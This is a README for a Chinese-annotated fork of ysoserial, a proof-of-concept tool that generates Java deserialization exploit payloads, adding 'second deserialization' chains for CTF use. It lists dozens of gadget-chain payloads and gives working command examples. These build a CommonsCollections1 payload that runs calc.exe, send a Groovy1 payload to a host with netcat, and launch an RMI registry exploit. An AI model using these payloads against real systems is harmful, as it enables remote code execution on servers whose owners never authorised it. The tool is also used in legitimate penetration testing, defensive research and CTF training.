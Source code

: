 
# ysoserial

[![GitHub release](https://img.shields.io/github/downloads/frohoff/ysoserial/latest/total)](https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar)
[![Travis Build Status](https://api.travis-ci.com/frohoff/ysoserial.svg?branch=master)](https://travis-ci.com/frohoff/ysoserial)
[![Appveyor Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

添加了二次反序列化内容，更适合中国宝宝CTF体制

![logo](ysoserial.png)

## Description

家人们谁懂啊，居然没人做二次反序列化的，我先写三个payload为敬

目前SecObjRMICon，SecObjBA和SecObjROME可用，后续会添加C3P0

参考来自

http://tttang.com/archive/1701/

[https://github.com/Y4tacker/JavaSec/blob/main/其他/Java二次反序列化/Java触发二次反序列化的点.md](https://github.com/Y4tacker/JavaSec/blob/main/其他/Java二次反序列化/Java触发二次反序列化的点.md)

## Disclaimer

This software has been created purely for the purposes of academic research and
for the development of effective defensive techniques, and is not intended to be
used to attack systems except where explicitly authorized. Project maintainers
are not responsible or liable for misuse of the software. Use responsibly.

## Usage

```shell
java -jar ysoserial-Second-0.0.1-all.jar
Y SO SERIAL?
Add some payload by J1an
Usage: java -jar ysoserial-[version]-all.jar [payload] '[command]'
Usage: java -jar ysoserial-[version]-all.jar secobjxxx '原payload:command'
  Available payload types:
七月 23, 2023 4:06:58 下午 org.reflections.Reflections scan
信息: Reflections took 82 ms to scan 1 urls, producing 18 keys and 165 values
     Payload             Authors                                Dependencies                                                                                                          
     -------             -------                                ------------                                                                                                          
     AspectJWeaver       @Jang                                  aspectjweaver:1.9.2, commons-collections:3.2.2                                                                        
     BeanShell1          @pwntester, @cschneider4711            bsh:2.0b5                                                                                                             
     C3P0                @mbechler                              c3p0:0.9.5.2, mchange-commons-java:0.2.11                                                                             
     Click1              @artsploit                             click-nodeps:2.3.0, javax.servlet-api:3.1.0                                                                           
     Clojure             @JackOfMostTrades                      clojure:1.8.0                                                                                                         
     CommonsBeanutils1   @frohoff                               commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2                                                 
     CommonsCollections1 @frohoff                               commons-collections:3.1                                                                                               
     CommonsCollections2 @frohoff                               commons-collections4:4.0                                                                                              
     CommonsCollections3 @frohoff                               commons-collections:3.1                                                                                               
     CommonsCollections4 @frohoff                               commons-collections4:4.0                                                                                              
     CommonsCollections5 @matthias_kaiser, @jasinner            commons-collections:3.1                                                                                               
     CommonsCollections6 @matthias_kaiser                       commons-collections:3.1                                                                                               
     CommonsCollections7 @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1                                                                                               
     FileUpload1         @mbechler                              commons-fileupload:1.3.1, commons-io:2.4                                                                              
     Groovy1             @frohoff                               groovy:2.3.9                                                                                                          
     Hibernate1          @mbechler                                                                                                                                                    
     Hibernate2          @mbechler                                                                                                                                                    
     JBossInterceptors1  @matthias_kaiser                       javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     JRMPClient          @mbechler                                                                                                                                                    
     JRMPListener        @mbechler                                                                                                                                                    
     JSON1               @mbechler                              json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
     JavassistWeld1      @matthias_kaiser                       javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     Jdk7u21             @frohoff                                                                                                                                                     
     Jython1             @pwntester, @cschneider4711            jython-standalone:2.5.2                                                                                               
     MozillaRhino1       @matthias_kaiser                       js:1.7R2                                                                                                              
     MozillaRhino2       @_tint0                                js:1.7R2                                                                                                              
     Myfaces1            @mbechler                                                                                                                                                    
     Myfaces2            @mbechler                                                                                                                                                    
     ROME                @mbechler                              rome:1.0                                                                                                              
     SecObjBA            @J1an                                  jackson                                                                                                               
     SecObjRMICon        @J1an                                  commons-collections:3.1                                                                                               
     SecObjROME          @J1an                                  rome:1.0                                                                                                              
     Spring1             @frohoff                               spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE                                                                 
     Spring2             @mbechler                              spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2                             
     URLDNS              @gebl                                                                                                                                                        
     Vaadin1             @kai_ullrich                           vaadin-server:7.7.14, vaadin-shared:7.7.14                                                                            
     Wicket1             @jacob-baines                          wicket-util:6.23.0, slf4j-api:1.6.4             
```

## Examples

```shell
$ java -jar ysoserial.jar CommonsCollections1 calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:

$ java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 1099 < groovypayload.bin

$ java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```

## Installation

[![GitHub release](https://img.shields.io/github/downloads/frohoff/ysoserial/latest/total)](https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar)

Download the [latest release jar](https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar) from GitHub releases.

## Building

Requires Java 1.7+ and Maven 3.x+

```mvn clean package -DskipTests```

## Code Status

[![Build Status](https://travis-ci.org/frohoff/ysoserial.svg?branch=master)](https://travis-ci.org/frohoff/ysoserial)
[![Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

## Contributing

1. Fork it
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create new Pull Request

## See Also
* [Java-Deserialization-Cheat-Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet): info on vulnerabilities, tools, blogs/write-ups, etc.
* [marshalsec](https://github.com/frohoff/marshalsec): similar project for various Java deserialization formats/libraries
* [ysoserial.net](https://github.com/pwntester/ysoserial.net): similar project for .NET deserialization
